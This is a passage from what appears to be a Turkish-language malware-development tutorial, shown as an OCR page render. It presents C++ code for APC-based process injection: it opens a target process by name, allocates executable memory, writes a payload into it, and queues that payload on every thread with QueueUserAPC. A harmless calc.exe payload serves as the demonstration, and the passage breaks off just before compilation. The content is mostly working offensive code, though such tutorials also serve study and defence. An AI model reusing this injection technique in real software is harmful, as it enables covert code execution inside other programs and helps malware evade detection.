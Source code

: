 ```cpp
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  std::vector<DWORD> tids; // thread IDs

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, 
    my_payload_len, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, 
    my_payload, 
    my_payload_len, NULL);

    if (getTids(pid, tids)) {
      for (DWORD tid : tids) {
        HANDLE ht = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
        if (ht) {
          QueueUserAPC((PAPCFUNC)rb, ht, NULL);
          printf("payload injected via QueueUserAPC\n");
          CloseHandle(ht);
        }
      }
    }
    CloseHandle(ph);
  }
  return 0;
}

```

Her zamanki gibi, basitlik adına, payload olarak 64-bit `calc.exe`'yi kullanıyoruz ve gösterim için bir mesaj yazdırıyoruz.       

Kodumuzu derleyelim:    

